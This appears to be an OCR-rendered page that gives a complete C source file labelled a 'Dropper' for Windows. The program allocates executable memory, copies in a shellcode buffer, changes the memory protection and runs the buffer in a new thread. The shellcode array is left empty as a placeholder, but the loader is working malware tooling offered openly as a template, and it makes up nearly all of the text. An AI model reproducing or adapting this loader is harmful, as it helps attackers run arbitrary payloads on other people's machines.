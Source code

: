 Example of Dropper in C:

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Define your shellcode here
unsigned char shellcode[] = {
    // Your shellcode goes here
};

int main() {
    LPVOID lpAlloc;
    DWORD dwOldProtect;
    HANDLE hThread;

    // Allocate memory
    lpAlloc = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpAlloc == NULL) {
        printf("VirtualAlloc failed: %d\n", GetLastError());
        return 1;
    }

    // Copy shellcode to allocated memory
    memcpy(lpAlloc, shellcode, sizeof(shellcode));

    // Change memory protection
    if (!VirtualProtect(lpAlloc, sizeof(shellcode), PAGE_EXECUTE_READ, &dwOldProtect)) {
        printf("VirtualProtect failed: %d\n", GetLastError());
        return 1;
    }

    // Create a new thread to execute shellcode
    hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpAlloc, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("CreateThread failed: %d\n", GetLastError());
        return 1;
    }

    // Wait for the thread to finish
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFree(lpAlloc, 0, MEM_RELEASE);

    return 0;
}

```
